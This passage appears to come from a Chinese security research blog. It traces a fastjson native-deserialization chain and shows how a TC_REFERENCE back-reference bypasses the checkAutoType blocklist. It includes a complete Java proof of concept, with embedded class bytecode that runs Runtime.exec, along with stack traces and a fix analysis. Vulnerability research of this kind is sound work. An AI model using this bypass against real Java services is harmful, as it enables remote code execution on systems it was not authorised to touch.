

接着 我们 弹栈到最初的 `java.io.ObjectInputStream#readOrdinaryObject` 方法，对类进行实例化



后边会去调用 readSerialData 方法



如果我们有自己重写 `readObject`，则调用 `slotDesc.invokeReadObject(obj, this)`；若没有，则调用 `defaultReadFields` 填充数据。 很显然 BadAttributeValueException 是重写了 readObject 方法的



后续就是一系列的 invoke() 方法

```
javax.management.BadAttributeValueExpException.readObject(BadAttributeValueExpException.java:71)
    jdk.internal.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
    jdk.internal.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
    jdk.internal.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
    java.lang.reflect.Method.invoke(Method.java:566)
    java.io.ObjectStreamClass.invokeReadObject(ObjectStreamClass.java:1160)
```

就来到了我们的 `BadAttributeValueExpException的readObject` 方法，先去执行 `readFields()` 方法 ，我们在 payload 中 给 BadAttributeValueExpException 的 `val` 变了复制为了 JSONArray 对象，里面封装了 TemplateImpl 恶意类



我们步入跟一下，看到调用了 java.io.ObjectInputStream.GetFieldImpl#readFields



#### JSONArray 反序列化

接着跟 又看到了 熟悉的 `readObject0()` 方法，就是上面讲的 反序列化流程，上边是反序列化 BadAttributeValueExpException 这次是 `JSONArray`



就不在重复了，直接来到 JSONArray 的 实例化和 readSerialData 方法



接着



我们进入，依然执行 `slotDesc.invokeReadObject()` 方法



接着又是一堆 invoke() 方法，来到 JSONArray 的 readObject() 方法，发现他把反序列化的流程 委托给 SecureObjectInputStream 这个内部类来进行完成了



我们跟入，要去执行 defaultReadFields() 方法



看到 其内部依然是 readObject0() 进行反序列化 ArrayList 对象



#### ArrayList 反序列化

依然是和上面一样的流程， readNonProxyDesc 调用 resolveClass() 的地方



> 这里因为 SecureObjectInputStream 重写了 resolveClass() 方法，所以这里不在执行 ObjectInputStream#resolveClass 默认的方法了，而是会先执行 JSONObject.SecureObjectInputStream#resolveClass 方法，最后再去 ObjectInputStream#resolveClass 返回类



ArrayList 在白名单中 所以不会走 checkAutoType 检查

#### TemplateImpl 反序列化

TemplateImpl 和 ArrayList 的流程是一样的，都会去走 `SecureObjectInputStream#resolveClass` 方法 ，但是 TemplateImpl 不在 mappings 白名单中，会进入 checkAutoType 的检查  


很明显这里的 checkAutoType 黑名单里是有 TemplateImpl 类的，自然也就抛出了 autoType is not support. 异常

最后看一下完整的调用栈

```
resolveClass:597, JSONObject$SecureObjectInputStream (com.alibaba.fastjson)
readNonProxyDesc:1886, ObjectInputStream (java.io)
readClassDesc:1772, ObjectInputStream (java.io)
readOrdinaryObject:2060, ObjectInputStream (java.io)
readObject0:1594, ObjectInputStream (java.io)
readObject:430, ObjectInputStream (java.io)
readObject:928, ArrayList (java.util)
invoke0:-1, NativeMethodAccessorImpl (jdk.internal.reflect)
invoke:62, NativeMethodAccessorImpl (jdk.internal.reflect)
invoke:43, DelegatingMethodAccessorImpl (jdk.internal.reflect)
invoke:566, Method (java.lang.reflect)
invokeReadObject:1160, ObjectStreamClass (java.io)
readSerialData:2216, ObjectInputStream (java.io)
readOrdinaryObject:2087, ObjectInputStream (java.io)
readObject0:1594, ObjectInputStream (java.io)
defaultReadFields:2355, ObjectInputStream (java.io)
defaultReadObject:566, ObjectInputStream (java.io)
readObject:486, JSONArray (com.alibaba.fastjson)
invoke0:-1, NativeMethodAccessorImpl (jdk.internal.reflect)
invoke:62, NativeMethodAccessorImpl (jdk.internal.reflect)
invoke:43, DelegatingMethodAccessorImpl (jdk.internal.reflect)
invoke:566, Method (java.lang.reflect)
invokeReadObject:1160, ObjectStreamClass (java.io)
readSerialData:2216, ObjectInputStream (java.io)
readOrdinaryObject:2087, ObjectInputStream (java.io)
readObject0:1594, ObjectInputStream (java.io)
readFields:2534, ObjectInputStream$GetFieldImpl (java.io)
readFields:610, ObjectInputStream (java.io)
readObject:71, BadAttributeValueExpException (javax.management)
invoke0:-1, NativeMethodAccessorImpl (jdk.internal.reflect)
invoke:62, NativeMethodAccessorImpl (jdk.internal.reflect)
invoke:43, DelegatingMethodAccessorImpl (jdk.internal.reflect)
invoke:566, Method (java.lang.reflect)
invokeReadObject:1160, ObjectStreamClass (java.io)
readSerialData:2216, ObjectInputStream (java.io)
readOrdinaryObject:2087, ObjectInputStream (java.io)
readObject0:1594, ObjectInputStream (java.io)
readObject:430, ObjectInputStream (java.io)
main:52, FastjsonSer (com.lingx5.fastjson2)
```

#### 解决

> 我们刚才也已经介绍过了引用的特性 (TC\_REFERENCE)
>
> `TC_REFERENCE`: 表示对流中先前已读取对象的 **反向引用 (句柄)**。会调用 `readHandle()` 来获取缓存的对象。
>
> TC\_REFERENCE，是引用类型。序列化后的数据其实相当繁琐，多层嵌套很容易搞乱，在恢复对象的时候也不太容易。于是就有了引用这个东西，他可以引用在此之前已经出现过的对象。

当我们在 JSONArray (ArrayList) 中的类是 普通的类（TC\_OBJECT）时 `readObject0()` 就会去执行 readOrdinaryObject => readNonProxyDesc() => SecureObjectInputStream#resolveClass => checkAutoType()

那么我们 如果不是普通类 而是利用 引用的特性(TC\_REFERENCE) 不就可以 绕过 checkAutoType() 的执行了吗，反序列化出 TemplateImpl 进而去 执行后边的 toString 调用 getter 方法，实现恶意类执行

#### 实验

其实了解到这些以后，我们也来做一个实验， 向输入流里第一次写 TemplateImpl ，第二次写 badAttributeValueExpException ，第一次反序列化 `TemplateImpl`  走正常的 ObjectInputStream#resolveClass

当第二次反序列化 TemplateImpl 时，也就是 JSONArray 中的 TemplateImpl ，会走 TC\_REFERENCE 分支，从而避免了 checkAutoType 的检查

```
package com.lingx5.fastjson2;

import com.alibaba.fastjson.JSONArray;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javax.management.BadAttributeValueExpException;
import java.io.*;
import java.lang.reflect.Field;
import java.util.Arrays;

public class FastjsonSerTest {
    // 封装 setFieldValue 方法，用来反射设置字段值
    public static void setFieldValue(Object obj,String name, Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj, value);
    }
    public static void main(String[] args) throws Exception {
        // 用字节数组定义恶意类
        byte[] code = new byte[]{-54, -2, -70, -66, 0, 0, 0, 55, 0, 27, 1, 0, 4, 69, 118, 105, 108, 7, 0, 1, 1, 0, 16, 106, 97, 118, 97, 47, 108, 97, 110, 103, 47, 79, 98, 106, 101, 99, 116, 7, 0, 3, 1, 0, 10, 83, 111, 117, 114, 99, 101, 70, 105, 108, 101, 1, 0, 9, 69, 118, 105, 108, 46, 106, 97, 118, 97, 1, 0, 64, 99, 111, 109, 47, 115, 117, 110, 47, 111, 114, 103, 47, 97, 112, 97, 99, 104, 101, 47, 120, 97, 108, 97, 110, 47, 105, 110, 116, 101, 114, 110, 97, 108, 47, 120, 115, 108, 116, 99, 47, 114, 117, 110, 116, 105, 109, 101, 47, 65, 98, 115, 116, 114, 97, 99, 116, 84, 114, 97, 110, 115, 108, 101, 116, 7, 0, 7, 1, 0, 8, 60, 99, 108, 105, 110, 105, 116, 62, 1, 0, 3, 40, 41, 86, 1, 0, 4, 67, 111, 100, 101, 1, 0, 17, 106, 97, 118, 97, 47, 108, 97, 110, 103, 47, 82, 117, 110, 116, 105, 109, 101, 7, 0, 12, 1, 0, 10, 103, 101, 116, 82, 117, 110, 116, 105, 109, 101, 1, 0, 21, 40, 41, 76, 106, 97, 118, 97, 47, 108, 97, 110, 103, 47, 82, 117, 110, 116, 105, 109, 101, 59, 12, 0, 14, 0, 15, 10, 0, 13, 0, 16, 1, 0, 4, 99, 97, 108, 99, 8, 0, 18, 1, 0, 4, 101, 120, 101, 99, 1, 0, 39, 40, 76, 106, 97, 118, 97, 47, 108, 97, 110, 103, 47, 83, 116, 114, 105, 110, 103, 59, 41, 76, 106, 97, 118, 97, 47, 108, 97, 110, 103, 47, 80, 114, 111, 99, 101, 115, 115, 59, 12, 0, 20, 0, 21, 10, 0, 13, 0, 22, 1, 0, 6, 60, 105, 110, 105, 116, 62, 12, 0, 24, 0, 10, 10, 0, 8, 0, 25, 0, 33, 0, 2, 0, 8, 0, 0, 0, 0, 0, 2, 0, 8, 0, 9, 0, 10, 0, 1, 0, 11, 0, 0, 0, 22, 0, 2, 0, 0, 0, 0, 0, 10, -72, 0, 17, 18, 19, -74, 0, 23, 87, -79, 0, 0, 0, 0, 0, 1, 0, 24, 0, 10, 0, 1, 0, 11, 0, 0, 0, 17, 0, 1, 0, 1, 0, 0, 0, 5, 42, -73, 0, 26, -79, 0, 0, 0, 0, 0, 1, 0, 5, 0, 0, 0, 2, 0, 6};
        //装载Template
        TemplatesImpl template = new TemplatesImpl();
        setFieldValue(template, "_bytecodes", new byte[][]{code});
        setFieldValue(template, "_name", "Evil");

        JSONArray jsonArray = new JSONArray();
        jsonArray.add(template);

        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
        setFieldValue(badAttributeValueExpException, "val", jsonArray);

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        // 先放入 template，再放入 badAttributeValueExpException
        oos.writeObject(template);
        oos.writeObject(badAttributeValueExpException);
        oos.close();

        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        try{
            ois.readObject(); // 读取 template
            ois.readObject(); // 读取 badAttributeValueExpException
        }catch (Exception e){
            e.printStackTrace();
        }
    }
}
```

进入了 readObject0 的 TC\_REFERENCE 分支



成功返回 TemplateImpl 对象



毫无疑问，执行成功



> **注意：**
>
> 这个改造只是方便我们理解的小实验，真是环境中 readObject 肯定就只执行一次，一般没有两次连着执行的。用 HashMap 封装就很好的解决了这个问题。更加适用于真实场景

HashMap 在反序列化的过程中，正好会先去反序列化 key（TemplateImpl ）再去反序列化 value（badAttributeValueExpException）正好可以 满足在第二次反序列化 `TemplateImpl`  的时候，走到 `TC_REFERENCE` 分支，从而绕过 checkAutoType 的检查

## 修复

FastJSON 2.0.27 开始支持 JSONB（JSON Binary）格式，JSONB 是一种二进制 JSON 格式，旨在提供比传统文本 JSON 更高的性能和更小的存储空间。它允许将 Java 对象序列化为二进制格式，并能高效地解析回 Java 对象。

在 fastjson 2.0.27中 看到 asm 生成的 writer 对象不再是 `ASMSerializer_1_TemplatesImpl` 而是变为了 `OWG_1_0_TemplatesImpl` 对象



dump下来看看

```
jad com.alibaba.fastjson2.writer.OWG_1_0_TemplatesImpl 
```

这个类 也不是很长，就全部 dump下来了

```
/*
 * Decompiled with CFR.
 */
package com.alibaba.fastjson2.writer;

import com.alibaba.fastjson2.JSONWriter;
import com.alibaba.fastjson2.writer.ObjectWriter;
import com.alibaba.fastjson2.writer.ObjectWriterAdapter;
import java.lang.reflect.Type;
import java.util.List;

public final class OWG_1_0_TemplatesImpl
extends ObjectWriterAdapter
implements ObjectWriter {
    public OWG_1_0_TemplatesImpl(Class clazz, String string, String string2, long l, List list) {
        super(clazz, string, string2, l, list);
    }

    @Override
    public void writeJSONB(JSONWriter jSONWriter, Object object, Object object2, Type type, long l) {
        long l2 = jSONWriter.getFeatures();
        long l3 = (l2 & 0x1000L) - 0L;
        long l4 = l3 == 0L ? 0 : (l3 < 0L ? -1 : 1);
        if (l4 != false) {
            boolean bl = false;
        } else {
            long l5 = (l2 & 0x50L) - 0L;
            long l6 = l5 == 0L ? 0 : (l5 < 0L ? -1 : 1);
        }
        if (object != null && object.getClass() != type && jSONWriter.isWriteTypeInfo(object, type)) {
            this.writeClassInfo(jSONWriter);
        }
        jSONWriter.startObject();
        jSONWriter.endObject();
    }

    @Override
    public void write(JSONWriter jSONWriter, Object object, Object object2, Type type, long l) {
        long l2 = jSONWriter.getFeatures();
        long l3 = (l2 & 0x1000L) - 0L;
        long l4 = l3 == 0L ? 0 : (l3 < 0L ? -1 : 1);
        if (l4 != false) {
            boolean bl = false;
        } else {
            long l5 = (l2 & 0x50L) - 0L;
            long l6 = l5 == 0L ? 0 : (l5 < 0L ? -1 : 1);
        }
        if ((l2 & 0x8000L) != 0L) {
            super.write(jSONWriter, object, object2, type, l);
            return;
        }
        if (jSONWriter.jsonb) {
            if ((l2 & 8L) != 0L) {
                this.writeArrayMappingJSONB(jSONWriter, object, object2, type, l);
                return;
            }
            this.writeJSONB(jSONWriter, object, object2, type, l);
            return;
        }
        if ((l2 & 8L) != 0L) {
            this.writeArrayMapping(jSONWriter, object, object2, type, l);
            return;
        }
        if (this.hasFilter(jSONWriter)) {
            this.writeWithFilter(jSONWriter, object, object2, type, l);
            return;
        }
        jSONWriter.startObject();
        boolean bl = true;
        if (object != null && object.getClass() != type && jSONWriter.isWriteTypeInfo(object, type)) {
            bl = this.writeTypeInfo(jSONWriter) ^ true;
        }
        jSONWriter.endObject();
    }

    @Override
    public void writeArrayMappingJSONB(JSONWriter jSONWriter, Object object, Object object2, Type type, long l) {
        if (object != null && object.getClass() != type && jSONWriter.isWriteTypeInfo(object, type)) {
            this.writeClassInfo(jSONWriter);
        }
        jSONWriter.startArray(0);
        long l2 = jSONWriter.getFeatures();
        long l3 = (l2 & 0x1000L) - 0L;
        long l4 = l3 == 0L ? 0 : (l3 < 0L ? -1 : 1);
        if (l4 != false) {
            boolean bl = false;
        } else {
            long l5 = (l2 & 0x50L) - 0L;
            long l6 = l5 == 0L ? 0 : (l5 < 0L ? -1 : 1);
        }
    }

    @Override
    public void writeArrayMapping(JSONWriter jSONWriter, Object object, Object object2, Type type, long l) {
        if (jSONWriter.jsonb) {
            this.writeArrayMappingJSONB(jSONWriter, object, object2, type, l);
            return;
        }
        if (this.hasFilter(jSONWriter)) {
            super.writeArrayMapping(jSONWriter, object, object2, type, l);
            return;
        }
        jSONWriter.startArray();
        jSONWriter.endArray();
    }
}
```

在 OWG\_1\_0\_TemplatesImpl 的 write 方法中，通过检查 jSONWriter.jsonb 标志，如果启用了 JSONB 格式，会调用 writeJSONB 或 writeArrayMappingJSONB 方法进行序列化。

不在显示的调用getter方法了

## 参考文章

[FastJson1&FastJson2 反序列化利用链分析-腾讯云开发者社区-腾讯云](https://cloud.tencent.com/developer/article/2441950)

[fastjson 原生反序列化链分析-先知社区](https://xz.aliyun.com/news/17133)

[JRE8u20 反序列化漏洞分析\_网易订阅](https://www.163.com/dy/article/DMAD0T6P05119F6V.html)

[Java 反序列化之 readObject 分析 | Kaibro's blog](https://blog.kaibro.tw/2020/02/23/Java反序列化之readObject分析/)
